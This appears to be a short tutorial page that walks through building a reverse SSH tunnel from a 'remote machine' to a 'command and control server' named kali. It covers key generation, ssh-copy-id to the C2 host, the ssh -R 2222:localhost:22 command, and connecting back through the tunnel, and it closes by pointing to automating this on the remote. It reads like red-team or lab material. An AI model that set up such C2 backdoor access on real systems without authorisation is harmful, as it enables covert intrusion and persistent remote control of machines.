 
On the remote machine create an entry in the hosts file for the command and control server.  


On the remote machine you want to connect to the command and control server generate the rsa key pair.

```session-shell 
ssh-keygen -t rsa -b 4096
```

Create an account on the command and control server that matches the user you created the key for. Then copy the key to the command and control server from the remote machine. use the login of the command and control server to do this.  

```session-shell 
ssh-copy-id -i $HOME/.ssh/id_rsa.pub user@server1.cyberciti.biz
```

Now test ssh to the command and control server.

```session-shell 
ssh frodo@kali
```

On the remote test the reverse ssh. The user is the user from the command and control server.

```session-shell 
ssh -R 2222:localhost:22 frodo@kali -i /home/kali/.ssh/id_rsa
```

On the command and control server.

```session-shell 
ssh -p 2222 kali@localhost
```

If this works next we want to automate on the remote.

